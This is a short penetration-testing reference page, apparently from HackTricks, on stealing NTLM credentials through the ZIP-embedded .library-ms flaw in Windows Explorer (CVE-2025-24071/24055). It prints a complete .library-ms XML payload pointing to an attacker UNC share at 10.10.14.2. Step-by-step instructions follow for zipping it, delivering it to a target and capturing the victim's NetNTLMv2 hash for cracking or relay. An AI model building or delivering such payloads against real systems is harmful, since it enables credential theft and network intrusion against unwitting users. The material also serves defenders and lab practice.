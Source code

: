 # Places to steal NTLM creds

{{#include ../../banners/hacktricks-training.md}}

**Check all the great ideas from [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) from the download of a microsoft word file online to the ntlm leaks source: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md and [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**

### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer insecurely handles .library-ms files when they are opened directly from within a ZIP archive. If the library definition points to a remote UNC path (e.g., \\attacker\share), simply browsing/launching the .library-ms inside the ZIP causes Explorer to enumerate the UNC and emit NTLM authentication to the attacker. This yields a NetNTLMv2 that can be cracked offline or potentially relayed.

Minimal .library-ms pointing to an attacker UNC

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <version>6</version>
  <name>Company Documents</name>
  <isLibraryPinned>false</isLibraryPinned>
  <iconReference>shell32.dll,-235</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.14.2\share</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Operational steps
- Create the .library-ms file with the XML above (set your IP/hostname).
- Zip it (on Windows: Send to → Compressed (zipped) folder) and deliver the ZIP to the target.
- Run an NTLM capture listener and wait for the victim to open the .library-ms from inside the ZIP.


## References
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)

{{#include ../../banners/hacktricks-training.md}}



